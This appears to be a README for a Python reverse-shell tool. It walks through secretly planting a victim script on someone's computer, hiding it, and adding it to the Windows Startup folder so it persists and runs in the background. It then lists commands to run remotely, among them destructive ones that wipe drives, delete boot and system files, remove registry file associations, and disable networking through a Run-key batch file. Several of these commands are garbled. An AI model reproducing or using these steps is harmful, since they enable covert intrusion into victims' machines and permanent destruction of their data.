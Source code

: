 # REVERSE SHELL

Description: This program is a python based reverse-shell attack tool which is cross-platform.

**_HOW TO RUN:_**

To run this (windows 7-10):

**_ATTACKER PART:-_**
STEP-1: Type ipconfig in cmd to check your local ipv4.

STEP-2: Change victim.py file's server variable to your local ipv4

STEP-3: Run py attacker.py on attacker computer


(ATTACKER COMPUTER SHOULD BE ON THE SAME LOCAL NETWORK AS THE VICTIM'S PC)


Next, you need to plant the victim.py file on your victim's computer, make it hiddenn and add it to startup programs list.


**_VICTIM PART_**
(MAKE SURE VICTIM HAS PYTHON 3.6 or higher as python 3.6 or lower version do not support the new threading module)
STEP-1: Plant the file
STEP-2: Make it Hidden - To make the file hidden, Right click on the file, click on hidden then click Apply and then Click Ok
STEP-3: Add the file to startup folder - "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"


THIS PUT'S THE FILE IN STARTUP FOR ALL USERS, TO PUT IT IN STARTUP FOR ONLY ONE USER, ADD THE FILE TO THE FOLLOWING DIRECTOR -
C:\Users\[User Name]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup.


STEP-4: Open cmd in that folder and type: pythonw s.py


The w flag added after python makes the file run in background


STEP-5: Now the reverse-shell file is running in the background and you can close the current shell (cmd/terminal)


Now you can run every command that a normal cmd user can run from the attacker's computer
Here are some basic commands to get you started:-


Start chrome - start chrome
Start notepad - start notepad
Open a URL - start {url here}
Shutdown Computer - shutdown /s
Network Details - ipconfig
List Director - dir
Network Statistics - netstat
ping an ip/url - ping {ip/url}
Trace Route of ip/url - tracert {ip/url}
Power configuration - powercfg
Basic User Details - whoami
System Information - systeminfo
Schedule Tasks - schtasks {task}


DANGEROUS COMMANDS:
Don't use for pranks, these commands can permanently harm a pc's software/hardware so even changing os won't work to fix some issues.


i) Format Hard drives :-


rd/s/q/ D:\
rd/s/q/ C:\
rd/s/q/ E:\


ii) Delete System 32 Files :-


attrib -r -s -h c:\autoexec.bat
del c:\autoexec.bat
attrib -r -s -h c:\boot.ini
del c:\boot.ini
attrib -r -s -h c:\ntldr
del c:\ntldr
attrib -r -s -h c:\windows\win.ini
del c:\windows\win.ini


iii) Delete All System Files:-


del*.*


Delete Registry Entry:-
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/\*


iv) Disable Internet Permanently


echo @echo off>c:windowswimn32.bat
echo break off>>c:windowswimn32.bat
echo ipconfig/release_all>>c:windowswimn32.bat
echo end>>c:windowswimn32.bat
reg add hkey_local_machinesoftwaremicrosftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /f
reg add hkey_local_machinesoftwaremicrosftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:window


v) Windows Blue Screen of Death


@echo off
delete %systemdrive%\*.\* /f /s


**RESTART WITH A MESSAGE:**
shutdown -r -f -t 60 -c "MESSAGE HERE"

FOR MORE INFO, Contact Developer :-


email: arjunagnihotri14a@gmail.com
